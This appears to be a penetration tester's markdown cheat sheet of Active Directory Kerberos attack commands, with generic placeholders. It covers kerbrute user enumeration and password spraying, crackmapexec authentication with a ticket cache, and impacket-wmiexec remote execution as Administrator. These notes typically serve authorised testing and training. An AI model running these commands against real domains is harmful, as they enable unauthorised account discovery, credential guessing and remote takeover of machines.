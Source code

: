 # kerbrute
https://github.com/ropnop/kerbrute

## enumerate users using wordlist
```bash
kerbrute userenum --dc $IP -d DOMAIN.local $FILE
```

## password spray users from user list file
```bash
kerbrute passwordspray --dc $IP -d DOMAIN.local users password123
```

# crackmapexec kerberos authentication with ticket
## include ticket environment variable
the hostname is very important.
```bash
export KRB5CCNAME=$(pwd)/User.ccache
crackmapexec smb fqdn.domain.local -u User --kerberos
```

# impacket kerberos commands

## ticket environment variable KRB5CCNAME
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
```

## wmiexec
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec -k -no-pass domain.local/Administrator@fqdn.domain.local
```
